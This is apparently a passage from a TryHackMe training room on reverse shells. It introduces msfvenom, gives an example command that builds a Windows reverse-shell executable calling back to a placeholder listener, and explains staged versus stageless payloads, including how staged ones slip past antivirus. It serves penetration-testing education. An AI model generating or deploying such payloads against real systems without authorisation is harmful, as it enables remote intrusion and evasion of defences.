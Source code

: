 

For other common reverse shell payloads, PayloadsAllTheThings is a repository containing a wide range of shell codes (usually in one-liner format for copying and pasting), in many different languages. It is well worth reading through the linked page to see what's available.

Msfvenom: the one-stop-shop for all things payload related.

Part of the Metasploit framework, msfvenom is used to generate code for primarily reverse and bind shells. It is used extensively in lower-level exploit development to generate hexadecimal shellcode when developing something like a Buffer Overflow exploit; however, it can also be used to generate payloads in various formats (e.g. .exe, .aspx, .war, .py). It's this latter function that we will be making use of in this room. There is more to teach about msfvenom than could ever be fit into a single room, let alone a single task, so the following information will be a brief introduction to the concepts that will prove useful for this room.

The standard syntax for msfvenom is as follows:

msfvenom -p <PAYLOAD> <OPTIONS>

For example, to generate a Windows x64 Reverse Shell in an exe format, we could use:

msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>



Here we are using a payload and four options:
-f <format>
Specifies the output format. In this case that is an executable (exe)
-o <file>
The output location and filename for the generated payload.
LHOST=<IP>
Specifies the IP to connect back to. When using TryHackMe, this will be your tun0 IP address. If you cannot load the link then you are not connected to the VPN.
LPORT=<port>
The port on the local machine to connect back to. This can be anything between 0 and 65535 that isn't already in use; however, ports below 1024 are restricted and require a listener running with root privileges.
Staged vs Stageless

Before we go any further, there are another two concepts which must be introduced: staged reverse shell payloads and stageless reverse shell payloads.

Staged payloads are sent in two parts. The first part is called the stager. This is a piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself. Instead it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus solutions. Thus the payload is split into two parts -- a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener -- usually the Metasploit multi/handler, which will be covered in the next task.
Stageless payloads are more common -- these are what we've been using up until now. They are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener.
Stageless payloads tend to be easier to use and catch; however, they are also bulkier, and are easier for an antivirus or intrusion detection program to discover and remove. Staged payloads are harder to use, but the initial stager is a lot shorter, and is sometimes missed by less-effective antivirus software. Modern day antivirus solutions will also make use of the Anti-Malware Scan Interface (AMSI) to detect the payload as it is loaded into memory by the stager, making staged payloads less effective than they would once have been in this area.
